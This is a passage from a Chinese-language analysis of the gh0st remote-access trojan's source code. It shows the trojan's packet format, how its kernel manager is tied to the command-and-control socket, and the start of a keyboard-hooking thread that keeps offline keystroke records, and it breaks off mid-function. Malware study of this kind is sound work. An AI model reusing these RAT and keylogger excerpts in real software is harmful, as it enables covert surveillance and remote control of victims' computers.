 ##### gh0st 的通信协议

根据上面的流程，我们可以得到 **gh0st** 网络通信协议包的格式，我们用一个结构体来表示一下：

```
//让该结构体以一个字节对齐
#pragma pack(push, 1)
struct Gh0stPacket
{
    //5字节package flag: 内容是gh0st
    char flag[5];
    //4字节的包大小
    int32_t packetSize;
    //4字节包体压缩前大小
    int32_t bodyUncompressedSize;
    //数据内容，长度为packetSize-13
    char data[0];
}
#pragma pack(pop)

```

当发送数据装包的过程和这个解包的过程刚好相反，位于上面说的 **CClientSocket::Send** 函数里面，这里就不再重复介绍了。



##### 工作线程二

我们刚才介绍了，当解析完一个完整的数据包后，把它放入CClientSocket 的成员变量 **m_DeCompressionBuffer** 中，然后交给 **m_pManager->OnReceive()** 函数处理，**m_pManager** 是一个基类 **CManager** 对象指针，其 **OnReceive** 函数我们要看其指向的子类方法的具体实现。这个对象在哪里设置的呢？

在我们上面介绍的程序主脉络中我们说主线程中有一个步骤是**等待控制端发送激活命令**，这个步骤有这样一段代码：

```
//svchost.cpp 220行
CKernelManager	manager(&socketClient, strServiceName, g_dwServiceType, strKillEvent, 
						lpszHost, dwPort);
socketClient.setManagerCallBack(&manager);

```

在这里我们可以得出 **CClientSocket.m_pManager** 指向的实际对象是 **CKernelManager**，同时在 CKernelManager 的**构造函数中**又新建了一个工作线程，线程函数叫 **Loop_HookKeyboard**。

```
//KernelManager.cpp 111行
m_nThreadCount = 0;
// 创建一个监视键盘记录的线程
// 键盘HOOK跟UNHOOK必须在同一个线程中
m_hThread[m_nThreadCount++] =
MyCreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)Loop_HookKeyboard, NULL, 0, NULL, true);
```

这个线程句柄被保存在 CKernelManager 的 **m_hThread** 数组中。线程函数 **Loop_HookKeyboard** 内容如下：

```
//Loop.h 76行
DWORD WINAPI Loop_HookKeyboard(LPARAM lparam)
{
    TCHAR szModule[MAX_PATH - 1];
    TCHAR	strKeyboardOfflineRecord[MAX_PATH];
    CKeyboardManager::MyGetModuleFileName(NULL, szModule, MAX_PATH);
    CKeyboardManager::MyGetSystemDirectory(strKeyboardOfflineRecord, ARRAYSIZE(strKeyboardOfflineRecord));
    lstrcat(strKeyboardOfflineRecord, TEXT("\\desktop.inf"));

    if (GetFileAttributes(strKeyboardOfflineRecord) != INVALID_FILE_ATTRIBUTES /*- 1*/)
    {
        int j = 1;
        g_bSignalHook = j;
```